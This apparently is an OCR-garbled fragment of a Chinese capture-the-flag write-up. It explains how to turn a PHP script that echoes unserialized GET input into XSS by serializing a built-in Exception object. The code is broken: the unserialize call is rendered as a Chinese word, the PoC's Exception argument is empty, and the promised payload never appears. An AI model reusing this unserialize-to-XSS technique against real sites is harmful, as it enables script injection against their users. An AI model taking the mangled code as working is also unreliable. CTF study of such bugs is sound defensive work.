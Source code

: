     1   
    2   
    3  
    

|

    
    
      
    $a = $_GET [ 'yds_is_so_beautiful' ];   
    echo 反序列化( $a );  
      
  
---|---  
  
`  
`

`没有看到一个反序列化函数并没有给出需要反序列化的类，还有一个反序列化但没有POP链的情况所以，只能找到PHP内置类来进行反序列化又有。一个echo，跑了，就是我们刚才没得演示的利用Error或Exception内置类进行XSS，查看一下题目的环境发现是PHP
5，所以我们要使用Exception类。`

`由于此题是xss，所以只要xss执行window.open()`

`  
`

``

`PHP`

``

    
    
    1   
    2   
    3   
    4  
    

|

    
    
      
    $poc = new  Exception ( " " );   
    echo urlencode(serialize( $poc ));   
    ?>  
      
  
---|---  
  
`  
`

`得到有效载荷如下：`

`  
`

``
